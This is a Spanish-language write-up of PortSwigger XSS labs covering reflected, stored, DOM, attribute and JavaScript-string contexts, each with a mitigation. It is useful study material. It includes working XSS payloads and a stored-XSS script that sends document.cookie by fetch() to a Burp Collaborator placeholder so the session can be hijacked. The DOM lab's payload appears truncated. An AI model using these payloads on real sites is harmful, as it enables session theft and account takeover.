







# Labs PortSwigger

## Mitigaciones generales contra XSS

Las principales medidas utilizadas para prevenir XSS dependen del contexto en el que se procesa el contenido:

- **Output encoding:** tratar los datos controlados por el usuario como texto antes de insertarlos en HTML, atributos o JavaScript.
- **Context-aware encoding:** utilizar el tratamiento adecuado según el contexto donde se inserta el dato.
- **Evitar sinks peligrosos:** no utilizar funciones como `document.write()` con contenido controlado por el usuario.
- **HttpOnly:** impedir que JavaScript pueda acceder directamente a cookies de sesión.
- **Content Security Policy (CSP):** utilizar una política restrictiva como capa adicional de defensa frente a la ejecución de contenido no autorizado.

Estas medidas no son intercambiables: cada una protege frente a un aspecto diferente del problema.

## Lab: Reflected XSS into HTML context with nothing encoded

**Descripción:** Realizar un ataque XSS reflejado que permita ejecutar la función `alert()`.

**Análisis**

La página tiene un buscador que refleja directamente el contenido de la búsqueda dentro del HTML de la respuesta, sin realizar ningún tipo de codificación.

Al no tratar el contenido ingresado como texto, es posible insertar etiquetas HTML que contengan código JavaScript.

**Payload / exploit**

Escribí dentro del buscador:

```text
<script>alert()</script>
```

La respuesta de la aplicación quedó conceptualmente:

```html
<p><script>alert()</script></p>
```

Al interpretar el HTML, el navegador reconoce la etiqueta `<script>` y ejecuta el código JavaScript contenido en ella.


**Resultado**

Fue posible ejecutar código JavaScript mediante una entrada reflejada en la respuesta de la aplicación, confirmando la existencia de una vulnerabilidad de Reflected XSS.

**Mitigación**

La principal mitigación es realizar **output encoding según el contexto** antes de insertar datos controlados por el usuario en la respuesta HTML.

En este caso, los caracteres que puedan ser interpretados como HTML deben codificarse para que el contenido sea tratado como texto y no como código.

## Lab: Stored XSS into HTML context with nothing encoded

**Descripción:** Subir un comentario que ejecute la función `alert()` cuando se visualiza el posteo.

**Análisis**

A diferencia del laboratorio anterior, el contenido ingresado no se refleja únicamente en la respuesta de la petición, sino que queda almacenado y se vuelve a mostrar cada vez que se visualiza el posteo.

Al no realizarse ningún tipo de codificación sobre el contenido almacenado, es posible insertar código que será interpretado por el navegador al cargar la página.

**Payload / exploit**

Comenté el post **"# Do You Speak English?"** utilizando:

```text
<script>alert()</script>
```


En el primer intento tuve un error de tipeo y escribí `Alert()` en lugar de `alert()`. Después de corregirlo, el payload se ejecutó correctamente al visualizar el comentario.

**Resultado**

Fue posible almacenar código JavaScript dentro de un comentario y ejecutarlo automáticamente cada vez que se visualiza el posteo.

Esto demuestra la diferencia principal con el **Reflected XSS** anterior: el payload permanece almacenado en la aplicación y no necesita ser enviado nuevamente en cada petición para ejecutarse.


**Mitigación**

La principal mitigación es realizar **output encoding según el contexto** antes de mostrar el contenido almacenado, de manera que sea interpretado como texto y no como código HTML o JavaScript.

En este caso, el contenido almacenado debe tratarse como datos no confiables cada vez que se inserta en la respuesta.

Referencia: [PortSwigger Web Security Academy – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)

## Lab: DOM XSS in `document.write` sink using `location.search`

**Descripción:** Realizar un ataque DOM XSS utilizando el parámetro de búsqueda para ejecutar la función `alert()`.

**Análisis**

En este caso, el código vulnerable se encuentra del lado del cliente. El valor introducido en el buscador se obtiene desde `location.search` y posteriormente se utiliza mediante `document.write()` para modificar el contenido de la página.

A diferencia de los casos anteriores, el servidor no necesita reflejar ni almacenar el payload. El propio JavaScript de la página procesa el valor controlado por el usuario y lo inserta directamente en el DOM.

En este caso:
- **Source:** `location.search`
- **Sink:** `document.write()`



**Payload / exploit**

Utilicé el buscador para introducir un payload que pudiera ser interpretado como HTML:

```text
">
```

El contenido ingresado fue tomado desde `location.search` y posteriormente incorporado mediante `document.write()`, provocando que el navegador interpretara la etiqueta `img` y ejecutara `alert()` mediante el evento `onerror`.



**Resultado**

Fue posible ejecutar código JavaScript mediante una manipulación del DOM realizada directamente por el código JavaScript del cliente.

Este laboratorio demuestra una variante de **DOM XSS**, donde la vulnerabilidad se produce por el flujo de datos desde un **source** controlado por el usuario hacia un **sink** peligroso, sin necesidad de que el servidor procese el payload.

**Mitigación**

La principal mitigación es evitar utilizar sinks inseguros como `document.write()` con datos controlados por el usuario.

Cuando sea necesario insertar contenido dinámico, se deben utilizar métodos que traten el contenido como texto, como `textContent`, en lugar de interpretarlo como HTML.

También es importante analizar el flujo de datos desde el **source** hasta el **sink** y aplicar un tratamiento seguro antes de que el dato llegue a una función capaz de interpretarlo como código o HTML.

Referencia: [PortSwigger Web Security Academy – DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

**Descripción:** Realizar un ataque Reflected XSS dentro de un atributo HTML para ejecutar la función `alert()`.

**Análisis**

En este caso, el contenido de la búsqueda se refleja dentro del atributo `value` de un elemento HTML.

La aplicación realiza HTML encoding de los caracteres `<` y `>`, por lo que no es posible utilizar directamente una etiqueta como `<script>`. Sin embargo, las comillas no son codificadas correctamente, permitiendo escapar del atributo `value` y agregar nuevos atributos HTML.

La estructura generada por la aplicación es conceptualmente:

```html
<input type="text" name="search" value="INPUT">
```

Por lo tanto, el objetivo es cerrar el atributo `value` y utilizar un event handler para ejecutar JavaScript.

**Payload / exploit**

Utilicé:

```text
" autofocus onfocus=alert(document.domain) x="
```

El HTML resultante queda conceptualmente como:

```html
<input type="text" name="search" value="" autofocus onfocus="alert(document.domain)" x="">
```

La primera comilla cierra el atributo `value`, permitiendo agregar nuevos atributos al elemento.

`autofocus` hace que el campo reciba automáticamente el foco y `onfocus` ejecuta `alert(document.domain)` cuando esto ocurre.

El último `x="` permite cerrar nuevamente la estructura del atributo.



**Resultado**

Fue posible ejecutar JavaScript mediante un atributo HTML controlado por el usuario, a pesar de que los caracteres `<` y `>` estaban codificados.

Este laboratorio demuestra que la mitigación debe tener en cuenta el **contexto en el que se inserta el dato**. En este caso, realizar únicamente HTML encoding de los caracteres `<` y `>` no fue suficiente, ya que las comillas permitieron escapar del atributo `value`.

**Mitigación**

La aplicación debe realizar un **output encoding adecuado al contexto del atributo HTML**, incluyendo el tratamiento de caracteres que permitan escapar del atributo, como las comillas.

También es recomendable utilizar mecanismos seguros para insertar datos en atributos y evitar construir HTML mediante concatenación de contenido controlado por el usuario.

Referencia: [PortSwigger Web Security Academy – XSS contexts](https://portswigger.net/web-security/cross-site-scripting/contexts)

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML-encoded

**Descripción:** Realizar un ataque Reflected XSS dentro de una cadena JavaScript para ejecutar la función `alert()`.

**Análisis**

En este caso, el contenido de la búsqueda se refleja dentro de una cadena JavaScript.

El código de la aplicación utiliza el valor ingresado para construir una variable:

```javascript
var searchTerms = 'INPUT';
```

Aunque los caracteres `<` y `>` están HTML-encoded, la entrada continúa siendo utilizada directamente dentro de una cadena JavaScript. Por lo tanto, es posible cerrar la cadena e insertar código JavaScript.

**Payload / exploit**

Utilicé:

```text
'; alert() //
```

El código resultante queda conceptualmente como:

```javascript
var searchTerms = ''; alert() //';
```

La primera comilla del payload cierra el string JavaScript original. El `;` termina la instrucción y permite ejecutar `alert()` como una nueva instrucción. Finalmente, `//` comenta el resto de la línea, evitando que la comilla agregada originalmente por la aplicación genere un error de sintaxis.

**Resultado**

Fue posible ejecutar código JavaScript mediante una entrada reflejada dentro de una cadena JavaScript, a pesar de que los caracteres `<` y `>` estaban codificados.



Este laboratorio demuestra que el contexto en el que se inserta el contenido es fundamental para analizar una vulnerabilidad XSS. En este caso, el problema no estaba en la interpretación de HTML, sino en la posibilidad de escapar de una cadena JavaScript.

**Mitigación**

La aplicación debe evitar insertar directamente datos controlados por el usuario dentro de código JavaScript.

Cuando sea necesario incluir datos dinámicos, deben utilizarse mecanismos seguros de serialización y **output encoding adecuado al contexto JavaScript**.

Referencia: [PortSwigger Web Security Academy – XSS contexts](https://portswigger.net/web-security/cross-site-scripting/contexts)

## Cross-Site Scripting - Stored XSS - Stealing Cookies

**Descripción:** Explotar una Stored XSS para obtener la cookie de sesión de otro usuario y utilizarla para acceder a su sesión.

**Objetivo**

El objetivo del laboratorio es explotar una vulnerabilidad de Cross-Site Scripting para robar la cookie de sesión de un usuario mediante Burp Collaborator y utilizarla para acceder a su cuenta.

**Análisis**

El punto vulnerable se encuentra en los comentarios de una publicación del blog, donde es posible almacenar contenido que posteriormente será procesado por el navegador de otro usuario.

Utilicé el siguiente payload:

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>
```

El código utiliza `document.cookie` para obtener las cookies accesibles mediante JavaScript y `fetch()` para enviarlas mediante una petición POST al servidor de Burp Collaborator.



Después de publicar el comentario, esperé la interacción del usuario víctima con el contenido. Burp Collaborator recibió una petición HTTP cuyo contenido incluía una cookie de sesión.



La cookie obtenida contenía el identificador de sesión del usuario víctima. Para comprobar su utilidad, tomé una petición realizada al sitio desde el navegador y la envié a Repeater, reemplazando el valor de mi cookie `session` por el valor obtenido mediante la XSS.



Al enviar la petición, el servidor la procesó utilizando la sesión asociada a la cookie robada y el laboratorio fue marcado como resuelto.

**Resultado**

Fue posible explotar una Stored XSS para exfiltrar la cookie de sesión de otro usuario y utilizarla para realizar una petición autenticada como esa víctima.

El ataque demuestra que una XSS puede utilizarse no solo para ejecutar JavaScript en el navegador de otro usuario, sino también para comprometer su sesión cuando las cookies de autenticación son accesibles mediante JavaScript.

**Mitigación**

Una medida de protección frente al robo de cookies mediante JavaScript es utilizar el atributo `HttpOnly` en las cookies de sesión:

```http
Set-Cookie: session=...; HttpOnly
```

De esta forma, la cookie continúa siendo enviada automáticamente en las peticiones correspondientes, pero no puede ser accedida mediante `document.cookie`.

Esta medida debe complementarse con las mitigaciones propias de XSS, principalmente realizar un correcto output encoding según el contexto.
